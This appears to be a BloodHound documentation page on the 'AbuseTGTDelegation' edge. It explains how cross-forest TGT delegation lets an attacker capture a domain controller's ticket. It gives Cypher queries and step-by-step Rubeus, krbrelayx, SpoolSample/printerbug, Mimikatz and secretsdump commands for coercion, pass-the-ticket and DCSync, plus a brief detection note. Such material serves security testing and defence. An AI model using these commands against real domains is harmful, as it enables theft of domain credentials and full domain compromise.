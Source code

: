 ---
title: AbuseTGTDelegation
description: The trust from the target node domain to the source node domain has TGT delegation enabled. When a resource in the source node domain is configured with unconstrained delegation, principals from the target node domain will automatically forward their Ticket Granting Ticket (TGT) to that resource upon access.
---

<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>


## Abuse Info

TGT delegation allows an attacker to capture TGTs of privileged users or computers in the target domain when they authenticate against a system configured with unconstrained delegation.

A common attack method involves the attacker logging into a DC of the source domain and coercing a DC of the target domain. Since DCs have unconstrained delegation enabled by default, this grants the attacker a TGT for a target domain DC, which can then be used to perform a DCSync attack on the target domain. This guide details that version of the attack.

Alternatively, attackers can target other privileged computers or users besides DCs.

The attack will fail if the target is a member of Protected Users or is marked as not trusted for delegation, as their TGTs will not be sent to hosts with unconstrained delegation. You can identify all protected principals using the following Cypher query in BloodHound:

```cypher
MATCH (g:Group)
WHERE g.objectid ENDS WITH "-525"
MATCH (n:Base)
WHERE n.sensitive = TRUE OR (n)-[:MemberOf*..]->(g)
RETURN n
LIMIT 1000
```

Attackers can also exploit non-DC hosts or users in the source domain with unconstrained delegation enabled. To find all non-DC principals with unconstrained delegation in BloodHound, run:

```cypher
MATCH (n:Base)
WHERE n.unconstraineddelegation = TRUE AND NOT (n)-[:DCFor]->()
RETURN n
```

## Attack

**Step 1: Start Monitoring for TGTs**

Windows:

Log into a DC of the source domain and open a command prompt as Administrator.

Start monitoring for incoming TGTs using Rubeus:

```bash
Rubeus.exe request monitor /user:targetdc.domain.local /interval:5 /nowrap
```

Linux:

Obtain credentials for a computer or user with unconstrained delegation.

Start monitoring for incoming TGTs using krbrelayx.py with the credentials of the unconstrained delegation account:

```bash
krbrelayx.py -aesKey 9ff86898afa70f5f7b9f2bf16320cb38edb2639409e1bc441ac417fac1fed5ab
```

**Step 2: Coerce the Target DC**

The printer bug is abused in this example. If the Print Spooler service is disabled on the target host, alternative coercion techniques must be used. See "Windows Coerced Authentication Methods" under References for details.

To coerce the target DC, Authenticated Users access is required in the target domain. If the trust relationship is bidirectional, all principals in the source domain have this access by default. If not, coercion must be executed as a principal from the target forest. Attackers can obtain such a session using the trust account attack. See "SID Filter as a Security Boundary Between Domains? (Part 7) - Trust Account Attack" under References for details.

Windows:

From any host in the domain, coerce the target DC using SpoolSample:

```bash
SpoolSample.exe targetdc.domain.local compromiseddc.otherdomain.local
```

Rubeus will print the DC TGT as soon as it is received.

Linux:

Coerce the target DC using printerbug.py:

```bash
printerbug.py '<domain>/<username>:<password>'@<target DC IP> <compromised DC IP>
```

krbrelayx.py will save the received TGT to disk.

**Step 3: Pass the Ticket**

Windows:

Inject the DC TGT into memory using Rubeus:

```bash
Rubeus.exe ptt /ticket:doIFvjCCBbqgAwI...
```

Linux:

Set the KRB5CCNAME environment variable to the ticket's path:

```bash
export KRB5CCNAME=$path_to_ticket.ccache
```

**Step 4: DCSync the Target Domain**

Windows:

Use Mimikatz to DCSync the target domain from the machine where the DC TGT was injected:

```bash
lsadump::dcsync /domain:domain.local /user:DOMAIN\Administrator
```

Linux:

Use secretsdump.py to DCSync the target domain:

```bash
secretsdump.py -k -just-dc-user <DOMAIN/targetuser> <target DC DNS name>
```

## Opsec Considerations

The attack can be detected by correlating Windows security events from the attacker-controlled host and the target. See the reference "Hunting in Active Directory: Unconstrained Delegation & Forests Trusts" for details.

## Edge Schema

Source: [Domain](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/nodes/domain)  
Destination: [Domain](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/nodes/domain)   
Traversable: **Yes**   

## References

* [Not A Security Boundary: Breaking Forest Trusts](https://posts.specterops.io/not-a-security-boundary-breaking-forest-trusts-cd125829518d)
* [Hunting in Active Directory: Unconstrained Delegation & Forests Trusts](https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1)
* [Abusing Users Configured with Unconstrained Delegation](https://exploit.ph/user-constrained-delegation.html)
* [SID filter as security boundary between domains? (Part 7) - Trust account attack - from trusting to trusted](https://blog.improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted)
* [“Relaying” Kerberos - Having fun with unconstrained delegation](https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/)
* [Windows Coerced Authentication Methods](https://github.com/p0dalirius/windows-coerced-authentication-methods)
* [Rubeus](https://github.com/GhostPack/Rubeus)
* [SpoolSample](https://github.com/leechristensen/SpoolSample)
* [mimikatz](https://github.com/gentilkiwi/mimikatz)
* [krbrelayx.py](https://github.com/dirkjanm/krbrelayx/)
* [printerbug.py](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)
* [secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py)
* [Updates to TGT delegation across incoming trusts in Windows Server](https://support.microsoft.com/en-us/topic/updates-to-tgt-delegation-across-incoming-trusts-in-windows-server-1a6632ac-1599-0a7c-550a-a754796c291e)
* [Microsoft AD Trust Technical Documentation](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc755321(v=ws.10))


